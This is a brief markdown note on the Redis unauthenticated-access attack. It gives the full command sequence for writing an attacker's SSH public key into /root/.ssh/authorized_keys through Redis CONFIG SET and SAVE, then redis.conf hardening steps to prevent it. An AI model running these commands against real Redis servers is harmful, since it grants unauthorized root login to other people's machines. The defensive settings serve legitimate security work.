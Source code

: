 
---
title: "Redis Hack"
---

## Remote login 

### How to replay

```shell
ssh-keygen –t rsa
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > foo
$ cat foo | redis-cli -h $remote_ip -x set crack
$ redis-cli -h $remote_ip
# in redis CLI
config set dir /root/.ssh/
config get dir
config set dbfilename "authorized_keys"
# save /root/.ssh/authorized_keys
save
```

### How to avoid

```shell
# redis.conf
# disable to change dbfilename via remote connetion
rename-command FLUSHALL ""
rename-command CONFIG   ""
rename-command EVAL     ""
requirepass mypassword
bind 127.0.0.1

groupadd -r redis && useradd -r -g redis redis
```
